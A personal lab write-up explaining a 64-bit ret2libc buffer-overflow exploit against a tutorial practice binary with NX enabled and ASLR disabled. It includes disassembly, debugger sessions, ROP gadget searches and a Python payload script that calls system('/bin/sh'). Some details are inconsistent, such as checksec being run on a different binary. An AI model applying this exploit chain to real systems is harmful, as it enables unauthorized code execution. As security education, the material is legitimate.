 ```yaml
---
title: Exploiting NX
published: true
---
```


For this topic I went with 
[https://blog.techorganic.com/2015/04/21/64-bit-linux-stack-smashing-tutorial-part-2/](Binary can be found here)

### Disassembly

I made an effort to ignore the source code and use disassembly to identify the buffer overflow. I set the assembly flavor to be Intel for easier reading.

```bash
devel@kub:~/challenges/r2libc$ objdump -M intel -d ./ret2libc vuln
<snip>
0000000000401176 <vuln>:
  401176:       f3 0f 1e fa             endbr64 
  40117a:       55                      push   rbp
  40117b:       48 89 e5                mov    rbp,rsp
  40117e:       48 83 ec 60             sub    rsp,0x60
  401182:       48 8d 45 a0             lea    rax,[rbp-0x60]
  401186:       ba 90 01 00 00          mov    edx,0x190
  40118b:       48 89 c6                mov    rsi,rax
  40118e:       bf 00 00 00 00          mov    edi,0x0
  401193:       e8 e8 fe ff ff          call   401080 <read@plt>
  401198:       89 45 fc                mov    DWORD PTR [rbp-0x4],eax
  40119b:       48 8d 55 a0             lea    rdx,[rbp-0x60]
  40119f:       8b 45 fc                mov    eax,DWORD PTR [rbp-0x4]
  4011a2:       89 c6                   mov    esi,eax
  4011a4:       48 8d 3d 59 0e 00 00    lea    rdi,[rip+0xe59]        # 402004 <_IO_stdin_used+0x4>
  4011ab:       b8 00 00 00 00          mov    eax,0x0
  4011b0:       e8 bb fe ff ff          call   401070 <printf@plt>
  4011b5:       48 8d 3d 63 0e 00 00    lea    rdi,[rip+0xe63]        # 40201f <_IO_stdin_used+0x1f>
  4011bc:       e8 9f fe ff ff          call   401060 <puts@plt>
  4011c1:       b8 00 00 00 00          mov    eax,0x0
  4011c6:       c9                      leave  
  4011c7:       c3                      ret    

00000000004011c8 <main>:
  4011c8:       f3 0f 1e fa             endbr64 
  4011cc:       55                      push   rbp
  4011cd:       48 89 e5                mov    rbp,rsp
  4011d0:       48 83 ec 10             sub    rsp,0x10
  4011d4:       89 7d fc                mov    DWORD PTR [rbp-0x4],edi
  4011d7:       48 89 75 f0             mov    QWORD PTR [rbp-0x10],rsi
  4011db:       48 8d 3d 51 0e 00 00    lea    rdi,[rip+0xe51]        # 402033 <_IO_stdin_used+0x33>
  4011e2:       b8 00 00 00 00          mov    eax,0x0
  4011e7:       e8 84 fe ff ff          call   401070 <printf@plt>
  4011ec:       b8 00 00 00 00          mov    eax,0x0
  4011f1:       e8 80 ff ff ff          call   401176 <vuln>
  4011f6:       b8 00 00 00 00          mov    eax,0x0
  4011fb:       c9                      leave  
  4011fc:       c3                      ret    
  4011fd:       0f 1f 00                nop    DWORD PTR [rax]
<snip>
```

The stack space created is 0x60 (96) bytes. We can tell from 
`  401198:       89 45 fc                mov    DWORD PTR [rbp-0x4],eax` and
`  401182:       48 8d 45 a0             lea    rax,[rbp-0x60]`
that there are two stack variables at least. The first one is 8 bytes (likely an int) which means there must be another 8 bytes of padding. The remaining 0x50 (80) bytes make up the stack buffer

So in the vuln function there is a buffer of at most 0x50 (80) bytes, but read is given a size of 0x190 (400) bytes.


### checksec

Next up is to determine exactly what security protections are in place. 

```bash
devel@kub:~/challenges/bitterman$ checksec --file ./bitterman
[*] '/home/devel/challenges/bitterman/bitterman'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

devel@kub:~/challenges/bitterman$ cat /proc/sys/kernel/randomize_va_space 
0
```

We know that DEP is enabled. DEP can be defeated with ROP.

# Buffer Overflow

The first step in any buffer overflow is find the size of the overflow. I'm using PEDA.

I start gdb on the binary. First step is to make a pattern big enough to guarantee an overflow. 0x60 is 96 bytes, so I'll make a pattern of 500 bytes just to be sure. I also need to make it 8bytes long for 64 bit addresses

```bash
db-peda$ pattern_create 400 in.txt
Writing pattern of 400 chars to filename "in.txt"
```

Next I run the binary with in.txt as input.

```bash
gdb-peda$ r < in.txt
Try to exec /bin/sh
Read 400 bytes. buf is AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKA�
No shell for you :(

Program received signal SIGSEGV, Segmentation fault.
```

64 bit doesn't allow direct manipulation of RIP, so I need to look at RSP to see if I control that

```bash
gdb-peda$ x/wx $rsp
0x7fffffffe508: 0x41413741

gdb-peda$ pattern_offset 0x41413741
1094793025 found at offset: 104
```

The overflow occurs at 104 bytes in

### ROP

NX is enabled so I need to use ROP. I'm going to abuse libc to execute a shell with `system()`

```bash
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0x7ffff7e16410 <system>
```

System takes a single parameter, a string containing the path of what to run. 

```bash
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 3 results, display max 3 items:
ret2libc : 0x40203f --> 0x68732f6e69622f ('/bin/sh')
ret2libc : 0x40303f --> 0x68732f6e69622f ('/bin/sh')
    libc : 0x7ffff7f775aa --> 0x68732f6e69622f ('/bin/sh')
```

Finally, we need to put the `/bin/sh` string into RDI. For that we need a ROP gadget

```bash
devel@kub:~/challenges/r2libc$ ropper --file ret2libc --search "% ?di"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: % ?di

[INFO] File: ret2libc
0x000000000040111e: adc dword ptr [rax], edi; test rax, rax; je 0x1130; mov edi, 0x404040; jmp rax; 
0x00000000004010dc: adc edi, dword ptr [rax]; test rax, rax; je 0x10f0; mov edi, 0x404040; jmp rax; 
0x00000000004010de: add byte ptr [rax], al; add byte ptr [rax], al; test rax, rax; je 0x10f0; mov edi, 0x404040; jmp rax; 
0x0000000000401120: add byte ptr [rax], al; add byte ptr [rax], al; test rax, rax; je 0x1130; mov edi, 0x404040; jmp rax; 
0x00000000004010e0: add byte ptr [rax], al; test rax, rax; je 0x10f0; mov edi, 0x404040; jmp rax; 
0x0000000000401122: add byte ptr [rax], al; test rax, rax; je 0x1130; mov edi, 0x404040; jmp rax; 
0x00000000004011b0: call 0x1070; lea rdi, [rip + 0xe63]; call 0x1060; mov eax, 0; leave; ret; 
0x00000000004010db: je 0x10f0; mov eax, 0; test rax, rax; je 0x10f0; mov edi, 0x404040; jmp rax; 
0x00000000004010e5: je 0x10f0; mov edi, 0x404040; jmp rax; 
0x000000000040111d: je 0x1130; mov eax, 0; test rax, rax; je 0x1130; mov edi, 0x404040; jmp rax; 
0x0000000000401127: je 0x1130; mov edi, 0x404040; jmp rax; 
0x00000000004011b6: lea edi, [rip + 0xe63]; call 0x1060; mov eax, 0; leave; ret; 
0x00000000004011b5: lea rdi, [rip + 0xe63]; call 0x1060; mov eax, 0; leave; ret; 
0x00000000004010dd: mov eax, 0; test rax, rax; je 0x10f0; mov edi, 0x404040; jmp rax; 
0x000000000040111f: mov eax, 0; test rax, rax; je 0x1130; mov edi, 0x404040; jmp rax; 
0x00000000004011b1: mov ebx, 0x48fffffe; lea edi, [rip + 0xe63]; call 0x1060; mov eax, 0; leave; ret; 
0x00000000004010b2: mov edi, 0x4011c8; call qword ptr [rip + 0x2f32]; hlt; nop; endbr64; ret; 
0x00000000004010e7: mov edi, 0x404040; jmp rax; 
0x00000000004010b1: mov rdi, 0x4011c8; call qword ptr [rip + 0x2f32]; hlt; nop; endbr64; ret; 
0x00000000004010e6: or dword ptr [rdi + 0x404040], edi; jmp rax; 
0x0000000000401263: pop rdi; ret; 
0x00000000004010e3: test eax, eax; je 0x10f0; mov edi, 0x404040; jmp rax; 
0x0000000000401125: test eax, eax; je 0x1130; mov edi, 0x404040; jmp rax; 
0x00000000004010e2: test rax, rax; je 0x10f0; mov edi, 0x404040; jmp rax; 
0x0000000000401124: test rax, rax; je 0x1130; mov edi, 0x404040; jmp rax; 
```

### stack alignment

When running my exploit, I kept getting a crash on the following

`movaps XMMWORD PTR [rsp+0x40],xmm0`

[https://stackoverflow.com/questions/54393105/libcs-system-when-the-stack-pointer-is-not-16-padded-causes-segmentation-faul](How to fix segfault)

tl;dr stack alignment MUST be 16 bytes. My shell code was 12. Pad it with a single ret ROP gadget

```bash
devel@kub:~/challenges/r2libc$ ropper --file ret2libc --search "ret"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: ret

[INFO] File: ret2libc
0x000000000040101a: ret; 
```


### python

```py
#!/usr/bin/python3
import struct

buflen = 104

payload = b"A" * buflen

#payload += struct.pack("<Q", 0x00000000004006a3)   # pop rdi; ret
#payload += struct.pack("<Q", 0x4006ff)             # ptr to "/bin/sh"
#payload += struct.pack("<Q", 0x7ffff7e16410)       # address of system()

payload += struct.pack("<Q", 0x000000000040101a)    # alignment ret; 
payload += struct.pack("<Q", 0x0000000000401263)    # pop rdi; ret 
payload += struct.pack("<Q", 0x40303f)              # ptr to "/bin/sh"
payload += struct.pack("<Q", 0x7ffff7e16410)        # address of system()


f = open("in.txt", "wb")
f.write(payload)
f.close()
```

